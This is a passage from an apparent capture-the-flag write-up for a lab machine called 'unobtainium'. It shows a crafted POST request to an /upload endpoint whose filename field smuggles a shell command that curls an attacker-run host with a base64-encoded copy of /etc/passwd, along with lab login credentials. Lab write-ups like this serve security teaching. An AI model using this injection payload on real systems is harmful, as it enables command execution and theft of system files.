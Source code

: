 ```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 11
ETag: W/"b-Ai2R8hgEarLmHKwesT1qcY913ys"
Date: Wed, 21 Apr 2021 19:47:58 GMT
Connection: close

{"ok":true}
```

Next lets try exploiting the RCE, looking through the index.js source we can see it takes a filename parameter and returns the same filename if successful. This means we need to craft our payload to send us the confirmation. We'll setup a `HTTP server` with `updog`.

![../../assets/images/unobtainium/Untitled_10.png](../../assets/images/unobtainium/Untitled_10.png)

Then we run our attack by `POST` to the `/upload` endpoint.

```bash
POST /upload HTTP/1.1
Host: unobtainium.htb:31337
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36
Accept: */*
Content-Type: application/json
Content-Length: 140
Connection: close

{
	"auth":{
		"name":"felamos",
		"password":"Winter2021"
	},
	"filename":"& curl http://10.10.14.90:1234/$(cat /etc/passwd|base64)"
}
```

![Success](../../assets/images/unobtainium/Untitled_11.png)
